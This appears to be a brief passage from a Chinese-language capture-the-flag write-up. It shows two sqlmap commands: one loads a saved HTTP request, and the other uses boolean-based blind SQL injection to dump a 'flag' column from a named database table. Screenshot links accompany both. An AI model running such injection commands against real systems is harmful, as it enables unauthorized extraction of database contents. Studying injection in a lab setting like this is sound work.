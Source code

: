 利用`sqlmap`使用

```sh
sqlmap -r Desktop/flag.txt
```

![image-20240413123221732](./img/README/image-20240413123221732.png)

```sh
sqlmap -r Desktop/flag.txt --technique B -D employee_akpoly -T flag -C flag --dump
```

![image-20240413125347827](./img/README/image-20240413125347827.png)
